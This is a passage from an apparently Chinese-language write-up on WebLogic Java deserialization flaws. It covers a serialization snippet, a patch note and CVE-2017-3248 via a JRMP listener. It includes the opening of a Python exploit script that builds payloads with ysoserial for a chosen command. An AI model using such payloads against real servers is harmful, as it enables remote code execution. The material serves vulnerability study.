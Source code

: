 ```java
        oos.writeObject(obj);
        System.out.println("-------序列化成功" + serName);
    }
}
```

### 修复

补丁：2016年10月 p23743997_1036_Generic
重写了resolveClass方法，加了过滤。

## CVE-2017-3248

![image-20210815110026954](img/image-20210815110029190.png)

通过jrmpclient去触发反序列化，然后在去连接我们的jrmplistener在触发反序列化漏洞。

```python
import socket
import sys
import struct
import re
import subprocess
import binascii

def get_payload1(gadget, command):
    JAR_FILE = '/Users/cengsiqi/Desktop/javasectools/ysoserial/target/ysoserial-0.0.6-SNAPSHOT-all.jar'
    popen = subprocess.Popen(['java', '-jar', JAR_FILE, gadget, command], stdout=subprocess.PIPE)
    return popen.stdout.read()

def get_payload2(path):
    with open(path, "rb") as f:
        return f.read()
```